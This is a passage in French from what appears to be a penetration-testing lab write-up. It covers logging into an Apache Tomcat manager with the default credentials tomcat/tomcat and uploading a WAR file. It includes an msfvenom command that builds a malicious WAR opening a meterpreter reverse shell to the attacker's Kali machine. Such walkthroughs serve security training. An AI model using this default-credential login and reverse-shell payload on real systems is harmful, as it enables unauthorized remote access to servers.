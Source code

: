 La fonction qui va particulièrement nous intéresser est __tomcat manager__. On peut s'authentifier avec les identifiants par défaut __tomcat / tomcat__.

![identifiants tomcat](./images/tomcat_tomcat.png)

Et sur cette interface, on constate que l'on peut déposer des applications au format `WAR`.

![Tomcat manager](./images/war_deploy.png)

On peut générer un `.war` malveillant qui créer un _reverse shell_ vers le metasploit de notre Kali.

__Dans un terminal :__

```
msfvenom -p java/meterpreter/reverse_tcp -f war -o rshell.war LHOST=192.168.56.120 LPORT=6666
```
